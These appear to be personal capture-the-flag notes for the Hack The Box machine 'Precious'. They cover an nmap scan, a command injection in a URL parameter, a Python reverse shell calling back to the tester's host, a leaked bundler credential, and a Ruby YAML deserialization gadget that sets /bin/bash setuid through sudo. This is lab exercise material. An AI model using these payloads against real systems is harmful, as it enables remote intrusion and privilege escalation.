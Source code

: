```
C:\home\kali> nmap -sV -sC 10.10.11.189     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-14 05:13 EDT
Nmap scan report for 10.10.11.189
Host is up (0.27s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE    SERVICE       VERSION
22/tcp   open     ssh           OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp   open     http          nginx 1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
|_http-server-header: nginx/1.18.0
389/tcp  filtered ldap
1058/tcp filtered nim
1947/tcp filtered sentinelsrm
5000/tcp filtered upnp
5009/tcp filtered airport-admin
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.77 seconds
```

it redirects to precious.htb
but not able ot access site so add to /etc/hosts

after /etc host and giving th etun ip i have the information

![](2023-03-16-02-34-46.png)

injection vuln exists:

http://10.10.14.16/?name=%20`python3 -c "print('hello')"`

![](2023-03-16-04-59-02.png)

```python
http://10.10.14.16/?name=%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.16",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`
```

$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"

```
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```

sudo /usr/bin/ruby /opt/update_dependencies.rb